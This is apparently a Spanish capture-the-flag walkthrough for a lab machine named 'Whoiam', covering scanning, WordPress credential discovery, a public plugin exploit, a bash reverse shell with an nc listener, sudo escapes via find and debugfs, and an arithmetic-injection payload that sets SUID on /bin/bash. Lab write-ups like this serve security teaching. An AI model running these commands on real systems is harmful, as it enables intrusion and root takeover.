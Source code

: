 ```yaml
---
description: '✍️ Autor: Pylon🔍 Dificultad: Fácil  📅 Fecha de creación: 09/06/2024'
---
```


# Whoiam

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.18.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (860).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.18.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (861).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 80** perteneciente al **servicio HTTP** está abierto por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p80 -v 172.18.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (862).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web llamada Whoiam.

<figure><img src="../../.gitbook/assets/image (863).png" alt=""><figcaption></figcaption></figure>

También al realizar el escaneo y al entrar en el código fuente vemos que hay un **WordPress**.&#x20;

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt,xml
```

<figure><img src="../../.gitbook/assets/image (864).png" alt=""><figcaption></figcaption></figure>

Nos llamada la atención el directorio `/backups` por lo que revisamos.

<figure><img src="../../.gitbook/assets/image (867).png" alt=""><figcaption></figcaption></figure>

Nos lo descargamos y descomprimimos y contiene un usuario y su contraseña.

<figure><img src="../../.gitbook/assets/image (868).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con esas credenciales en **WordPress**.

<figure><img src="../../.gitbook/assets/image (869).png" alt=""><figcaption></figcaption></figure>

### &#x20;🚀 **EXPLOTACIÓN**

Vemos los plugins y hay uno que nos llama la atención.

<figure><img src="../../.gitbook/assets/image (870).png" alt=""><figcaption></figcaption></figure>

Buscamos si contiene algún exploit.

```bash
searchsploit modern events calendar
```

<figure><img src="../../.gitbook/assets/image (871).png" alt=""><figcaption></figcaption></figure>

Nos descargamos el segundo exploit.

```bash
searchsploit -m php/webapps/50082.py
```

<figure><img src="../../.gitbook/assets/image (872).png" alt=""><figcaption></figcaption></figure>

Ejecutamos el siguiente comando para crear una shell en el navegador.

```bash
python 50082.py -T 172.20.0.2 -P 80 -U / -u developer -p 2wmy3KrGDRD%RsA7Ty5n71L^
```

<figure><img src="../../.gitbook/assets/image (873).png" alt=""><figcaption></figcaption></figure>

Entramos en la shell.

<figure><img src="../../.gitbook/assets/image (874).png" alt=""><figcaption></figcaption></figure>

Nos enviamos una[ Reverse Shell](https://www.revshells.com/).

```bash
/bin/bash -c "bash -i >& /dev/tcp/172.20.0.1/443 0>&1"
```

Nos ponemos en escucha.

```bash
nc -nvlp 443
```

<figure><img src="../../.gitbook/assets/image (875).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (876).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos **SUDO** con el usuario **rafa** con **find** revisamos esta [página](https://gtfobins.github.io/gtfobins/find/).

```bash
sudo -u rafa /usr/bin/find . -exec /bin/sh \; -quit
```

<figure><img src="../../.gitbook/assets/image (877).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos **SUDO** con el usuario **rubén** con **debugfs** revisamos esta [página](https://gtfobins.github.io/gtfobins/debugfs/).

```bash
sudo -u ruben /usr/sbin/debugfs
! /bin/sh
```

<figure><img src="../../.gitbook/assets/image (878).png" alt=""><figcaption></figcaption></figure>

El scrip verifica si el número ingresado es 42 para devolver "Correct". Aprovechando esto, podemos modificar el script para que establezca el bit SUID en `/bin/bash`. Esto permitirá que cualquier usuario que ejecute `/bin/bash` obtenga privilegios de `root`.

```bash
prueba[$(chmod u+s /bin/bash >&2)]+42
```

<figure><img src="../../.gitbook/assets/image (879).png" alt=""><figcaption></figcaption></figure>

```bash
bash -p
```

<figure><img src="../../.gitbook/assets/image (880).png" alt=""><figcaption></figcaption></figure>
